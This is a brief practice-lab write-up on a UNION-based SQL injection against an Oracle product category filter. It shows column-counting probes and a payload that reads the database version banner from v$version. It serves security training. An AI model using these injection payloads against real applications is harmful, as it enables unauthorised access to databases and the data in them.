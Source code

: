 # Lab 03 :  SQL injection attack, querying the database type and version on Oracle

## Overview:
- Level : PRACTITIONER
- SQL Injection on product category filter
- Union attack
- End Goal : Display the database version string

## Analysis:
- the webpage show sql error that give information about backend sql software is Oracle Database 11g 
- so we know that oracle is there 
- put ' as product category it give 500 internal server error

## Solution:
- On Oracle databases, every SELECT statement must specify a table to select FROM.
- determine number of column
    'UNION SELECT 'abc' FROM dual-- gives 500 internal server error
    'UNION SELECT 'abc','def' FROM dual-- gives 200 ok responce
    so there are two column
- to get database type and version on oracle use following payload
    'UNION SELECT BANNER,NULL FROM v$version--


